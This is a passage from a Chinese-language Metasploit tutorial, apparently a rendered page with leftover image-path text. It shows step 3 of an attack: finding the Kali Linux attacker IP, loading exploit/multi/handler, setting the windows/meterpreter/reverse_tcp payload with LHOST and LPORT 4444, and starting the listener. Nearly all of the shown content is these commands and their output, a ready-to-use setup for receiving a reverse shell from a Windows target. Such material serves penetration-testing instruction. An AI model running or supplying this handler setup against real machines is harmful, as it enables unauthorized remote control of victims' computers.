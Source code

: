 ```
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf >

```

### 步骤 3：进行漏洞利用的细节


* 4444 端口：你可以按照自己的想法来选择使用哪个端口
* LHOST IP：表示 Kali Linux 机器的 IP，这里是 192.168.189.128。 使用如下命令来查看你的 Kali Linux 机器的 IP。



```
root@kali:/# ip r l
192.168.189.0/24 dev eth0  proto kernel  scope link  src 192.168.189.128  metric 100
root@kali:/#

```

现在在 msf 命令窗口使用 `use exploit/multi/handler` 命令，如下：



```
msf > use exploit/multi/handler
msf exploit(handler) >

```

然后在接下来的命令窗口中使用命令 `set payload windows/meterpreter/reverse_tcp`：



```
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

```

现在使用 LHOST 和 LPORT 来设置本地 IP 和本地端口，如下：



```
msf exploit(handler) > set lhost 192.168.189.128
lhost => 192.168.189.128
msf exploit(handler) > set lport 4444
lport => 4444

```

最后使用 `exploit` 命令。



```
msf exploit(handler) > exploit

[*] Started reverse TCP handler on 192.168.189.128:4444
[*] Starting the payload handler...

```
